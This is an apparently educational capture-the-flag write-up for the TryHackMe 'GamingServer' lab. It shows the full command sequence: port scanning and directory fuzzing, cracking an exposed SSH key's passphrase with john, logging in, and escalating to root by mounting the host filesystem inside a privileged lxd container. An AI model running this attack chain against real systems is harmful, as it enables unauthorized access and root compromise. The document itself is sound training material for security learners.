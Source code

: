 # GamingServer
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuzzing
* John
* SSH
* LXD

Tools used
--
* nmap
* ffuf
* ssh2john
* john
* ssh
* lxc

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.69.152
* Other information must be gathered during the attack

## Phase 1: Enumeration
```
sudo nmap -sS -sC -sV 10.10.69.152 -p- -T5 -vvv

<SNIP>
Discovered open port 22/tcp on 10.10.69.152
Discovered open port 80/tcp on 10.10.69.152
<SNIP>
```
Let's fuzz the web service:
```
ffuf -u http://10.10.69.152/FFUF -H 'Host: 10.10.69.152' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w $SECLISTS/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 37ms]
secret                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 78ms]
```
Let's analyze also comments inside the HTML pages:
```
curl -s http://10.10.69.152/ | tidy -q -numeric -asxhtml --show-warnings no | xmlstarlet sel --html -t -m '//comment()' -v . -n

john, please add some actual content to the site! lorem ipsum is horrible to look at. 
```
So, one user is `john`.

## Phase 2: Foothold

Let's access to `secret` and let's retrieve the SSH key. Then, crack it:
```
python2 /usr/bin/ssh2john secretKey > id.hash

john id.hash --wordlist=$SECLISTS/Passwords/Leaked-Databases/rockyou.txt

<SNIP>
letmein          (secretKey)
<SNIP>
```
Let's access by SSH:
```
ssh 10.10.69.152 -l john -i secretKey 
Enter passphrase for key 'secretKey': letmein

cat user.txt
```
We got user flag.

## Phase 3: Privilege Escalation

By running `id`, we discover that `john` belongs to `lxd` group.

We can follow this exploit: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

So, on the attacker machine, run:
```
sudo pacman -Syy git go debootstrap rsync gpg squashfs-tools
#Clone repo
git clone https://github.com/lxc/distrobuilder
#Make distrobuilder
cd distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```
Then, upload to the vulnerable server the files `lxd.tar.xz` and `rootfs.squashfs`:
```
scp -i ~/secretKey lxd.tar.xz rootfs.squashfs john@10.10.69.152:/home/john/
Enter passphrase: letmein

lxd.tar.xz
rootfs.squashfs
```
On the victim machine:
```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```
Create a container and add root path:
```
lxc init alpine privesc -c security.privileged=true --alias=alpine
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
Note: If you find this error Error: No storage pool found. Please create a new storage pool. Run `lxd init` and repeat the previous chunk of commands.

Execute the container:
```
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```
Now run `cat root/root.txt` (note that it is equivalent to `cat /mnt/root/root/root.txt`).